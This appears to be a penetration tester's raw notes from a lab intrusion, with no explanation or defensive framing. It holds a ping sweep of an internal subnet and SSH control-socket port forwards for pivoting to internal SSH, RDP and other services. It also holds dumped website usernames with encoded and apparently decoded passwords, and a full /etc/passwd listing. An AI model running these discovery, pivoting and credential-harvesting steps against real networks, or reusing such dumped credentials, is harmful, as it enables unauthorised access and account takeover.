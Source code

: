 ssh -MS /tmp/app user2@127.0.0.1 -p10003 ---- not working

for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done  # find hosts

ssh -S /tmp/pub -O forward -L10004:192.168.28.172:22 ssh
ssh -MS /tmp/app Aaron@127.0.0.1 -p10004 ---- were in


ssh -S /tmp/app -O forward -L10005:192.168.28.179:22 ssh
ssh -MS /tmp/win Lroth@127.0.0.1 -p10006
ssh -S /tmp/app -O forward -L10006:192.168.28.179:3389 RDP

 ssh -S /tmp/app -O forward -L10007:192.168.28.179:9999  SS






# PUBLIC FACING WEBSITE
Array ( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => RntyrfVfNER78 ) 1Array ( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Obo4GURRnccyrf ) 1Array ( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages ) 1



( [0] => user2 [name] => user2 [1] => RntyrfVfNER78 [pass] => EaglesIsARE78 )

( [0] => user3 [name] => user3 [1] => Obo4GURRnccyrf [pass] => Bob4THEEapples )

( [0] => Lee_Roth [name] => Lee_Roth [1] => anotherpassword4THEages [pass] => anotherpassword4THEages )





root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false 
